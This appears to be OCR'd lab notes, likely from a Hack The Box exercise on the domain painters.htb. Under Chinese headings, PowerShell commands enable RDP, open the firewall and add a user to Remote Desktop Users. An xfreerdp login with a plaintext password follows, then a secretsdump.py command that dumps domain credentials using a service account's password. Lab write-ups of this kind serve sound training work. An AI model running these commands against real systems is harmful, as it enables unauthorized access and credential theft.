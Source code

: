 #### 1. 启用 RDP 服务
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

----

#### 2. 放行防火墙中的 RDP 端口（3389）
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

----

#### 3.  确认 RDP 服务已经启用
Get-Service -Name TermService

----

#### 4. 添加用户到 Remote Desktop Users 组
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "riley"

----

xfreerdp /u:riley /p:P@ssw0rd /d:painters.htb /v:192.168.110.56 /cert:ignore



secretsdump.py painters.htb/web_svc:'!QAZ1qaz'@192.168.110.52


